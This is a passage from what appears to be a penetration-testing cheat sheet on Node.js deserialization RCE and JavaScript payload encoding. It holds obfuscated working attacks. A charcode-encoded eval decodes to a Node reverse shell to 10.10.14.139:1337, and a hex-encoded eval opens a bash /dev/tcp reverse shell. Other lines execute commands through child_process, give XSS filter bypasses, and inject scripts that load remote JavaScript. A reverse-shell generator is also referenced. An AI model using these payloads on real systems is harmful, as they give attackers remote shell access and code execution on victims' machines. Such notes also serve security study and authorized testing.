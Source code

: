                   rce: function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,49,51,57,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}
                }
                var serialize = require('node-serialize');
                var s = serialize.serialize(y)
                console.log("Serialized: \n" + s.slice(0,-2) + "()" + s.slice(-2,));
            nodejs deserialShell.js | tail -n +2 | base64 -w0
    Troubleshooting & Useful Commands:
        Testing injection:  ;require('util').log('CODE_EXECUTION');
        Debugging Method:  console.log('Executing: ' + parts[i].value);
            for variables:  console.log(JSON.stringify(variable_name)); 
        *Encoding/Filters:
            https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/
            Hex:
                Automatic Hex Encoding:  ex. cmd = "\\\\x2fbin\\\\x2fbash"  ;  ex. console.log("\x68\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21")
                Function Hex Encoding:  ex. eval(Buffer.from('7265717569726528226368696C645F70726F6365737322292E65786563282762617368202D63202262617368202D69203E26202F6465762F7463702F3139322E3136382E3131392E3134382F3535353520303E2631222729','hex').toString('utf8')) 
                Another Hex option:  String.fromCharCode(88,83,83)
                    Python Method:  
                            payload = '''document.write('<script src="http://10.10.14.30/0xdf.js"></script>');'''
                            ','.join([str(ord(c)) for c in payload])
                        <script>eval(String.fromCharCode(100,111, ...))</script>
            Base64: 
                atob()
                eval(Buffer.from('IENNRCA9IFwidG91Y2ggL3RtcC9IQUNLRURcIjsgcmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoQ01ELCBmdW5jdGlvbihlcnJvciwgc3Rkb3V0LCBzdGRlcnIpIHsgY29uc29sZS5sb2coc3Rkb3V0KSB9KQ==','base64').toString('utf-8'))
            Hex & Base64 (atob within eval):  self["\x65\x76\x61\x6c"](self["\x61\x74\x6f\x62"]("dmFyIGhlYWQgPSBkb2N1bWVudC5nZXRFbGVtZW50c0J5VGFnTmFtZSgnaGVhZCcpLml0ZW0oMCk7dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ3NjcmlwdCcpO3NjcmlwdC5zZXRBdHRyaWJ1dGUoJ3R5cGUnLCAndGV4dC9qYXZhc2NyaXB0Jyk7c2NyaXB0LnNldEF0dHJpYnV0ZSgnc3JjJywgJ2h0dHA6Ly9leGFtcGxlLmNvbS9teS5qcycpO2hlYWQuYXBwZW5kQ2hpbGQoc2NyaXB0KTs="))
                XSS filter bypass:  </code> <svg/onload=eval(atob(`%s`))> <code>
                Try eval within an eval!
            **Encoded reverse shell generator:  https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py
                python2 nodejsshell.py 192.168.1.1 4444
            JQuery Methods:
                self["$"]["globalEval"]("alert(1)");	